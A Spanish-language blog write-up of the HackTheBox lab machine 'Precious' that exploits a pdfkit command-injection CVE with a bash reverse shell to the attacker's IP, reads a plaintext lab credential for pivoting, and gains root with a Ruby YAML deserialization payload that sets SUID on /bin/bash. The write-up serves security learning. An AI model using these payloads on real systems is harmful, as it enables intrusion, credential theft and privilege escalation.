 ```yaml
---
title: "Precious HTB Writeup"
layout: single
excerpt: "Maquina HTB de dificultad facil, en esta maquina se ve como realizar un exploit a una aplicación web vulnerable usando una ejecución remota de comandos y un servidor local. La escalada de privilegios se basa despues en la explotación de un privilegio de sudo a un archivo .yml."
show_date: true
classes: wide
header:
  teaser: /assets/images/CTFs/Precious-HTB/icon.png
  teaser_home_page: true  
  icon: /assets/images/HackTheBox-icon.png
categories:
  - HackTheBox 
  - Easy
tags:
  - Web
  - YAML
---
```

![Precious](/assets/images/CTFs/Precious-HTB/header.png)

# Reconocimiento 🔎 

---

Como siempre realizamos un pequeño escaneo de puertos rápido con el siguiente comando buscando cualquier puerto abierto.

```bash
nmap -p- 10.10.11.189
```
![image](/assets/images/CTFs/Precious-HTB/01.png)

Continuamos con un escaneo más avanzado de estos puertos.
```bash
sudo nmap -sV -p 22,80 10.10.11.189
```
![image](/assets/images/CTFs/Precious-HTB/02.png)

Ahora vamos a configurar nuestro fichero `/etc/hosts` para poder ver el servicio http.

![image](/assets/images/CTFs/Precious-HTB/03.png)

Nos dirigimos hacia la web y vamos a poder ver que la web es un convertidor web a pdf.

![image](/assets/images/CTFs/Precious-HTB/04.png)

Así que para probarlo vamos a lanzar un servidor web en nuestra máquina local a través de python.
```bash
python3 -m http.server 80
```
![image](/assets/images/CTFs/Precious-HTB/06.png)

Así que ahora vamos a probar introduciendo la IP de la máquina atacante en el servicio web de la máquina víctima.

![image](/assets/images/CTFs/Precious-HTB/07.png)

Y como podemos ver se ha convertido nuestra web en un PDF como se esperaba, así que vamos a descargar el PDF para analizarlo con la herramienta `exiftool`.

![image](/assets/images/CTFs/Precious-HTB/08.png)

Vemos que ha sido generado por una herramienta: `pdfkit v0.8.6`. La cuál si hacemos una búqueda en Google, podemos ver que es vulnerable a `Command Injection`.

![image](/assets/images/CTFs/Precious-HTB/09.png)

Tras informarme más sobre este CVE, podemos saber que tenemos que introducir el parametro `name` y dentro usar los ```backticks``` para inyectar nuestro comando.<br>
- Para saber más sobre CVE-2022-25765:<br>
[https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795 ](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) 

<br><br>

# Explotación 🔑

---

Vamos a probar si funciona el exploit mencionado anteriormente:
```bash
http://10.10.14.46/?name=%20`pwd`
```
![image](/assets/images/CTFs/Precious-HTB/10.png)<br>
Y vemos que funciona correctamente.

![image](/assets/images/CTFs/Precious-HTB/11.png)<br>

Así manos a la obra. Este será el payload que voy a introducir:
```bash
http://10.10.14.46/?name=%20`/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.46/4747 0>&1'`
```

Antes de lanzar el payload vamos abrir un listener con netcat:
```bash
nc -nvlp 4747
```
<br>
Ejecutamos el payload y ya tendriamos acceso a la máquina víctima.

![image](/assets/images/CTFs/Precious-HTB/12.png)<br>

Tenemos acceso al usuario ruby pero no existe ningún fichero para ejecutar como root, así que vamos a pivotar al usuario henry mediante el fichero `config` en el directorio `.bundle` que he encontrado.
```bash
ruby@precious:/var/www/pdfapp$ cd ~
cd ~
ruby@precious:~$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 May  3 06:34 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 May  3 06:34 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ ls -al .bundle 
ls -al .bundle
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 May  3 06:34 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
ruby@precious:~$ cat .bundle/config
cat .bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
Accedemos al usuario henry mediante ssh:
```bash
ssh henry@10.10.11.189 
```
![image](/assets/images/CTFs/Precious-HTB/13.png)<br>
Ahora pasamos a la siguiente fase para terminar con el CTF.

<br><br>

# Escalada de Privilegios 🚀

---

Ya teniendo acceso al usuario henry el siguiente paso sería escalar los privilegios a root.<br><br>
Vamos a listar fichero que se ejecuta como root dentro del usuario henry:

![image](/assets/images/CTFs/Precious-HTB/14.png)<br>

Obtenemos el fichero `update_dependencies.rb` que podemos ejecutarlo como usuario root. Vamos a echarle un vistazo.

![image](/assets/images/CTFs/Precious-HTB/15.png)<br>

Mirando el código veo que utiliza un YAML.load, cuál es vulnerable a ataques de deserialización YAML.<br>
<br>
Puedes ver más sobre ataques de deserialización YAML en el siguiente enlace:<br>
[https://github.com/DevComputaria/KnowledgeBase/blob/master/pentesting-web/deserialization/python-yaml-deserialization.md](https://github.com/DevComputaria/KnowledgeBase/blob/master/pentesting-web/deserialization/python-yaml-deserialization.md)
<br><br>

Ahora podemos explotar con nuestro fichero `dependencies.yml`.

![image](/assets/images/CTFs/Precious-HTB/16.png)<br>
### dependencies.yml

```yml
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```
<br>

Ejecutar el fichero con permisos de ejecución root.

![image](/assets/images/CTFs/Precious-HTB/17.png)<br>
<br>
Y ya con esto tenemos el usuario root a nuestra disposición. Y poder conseguir la **FLAG**.

![image](/assets/images/CTFs/Precious-HTB/18.png)<br>
<br>

---

<br>
Espero que te haya servido de ayuda este post. Me ayudarías mucho si lo compartes en tus **RRSS**, GRACIAS!

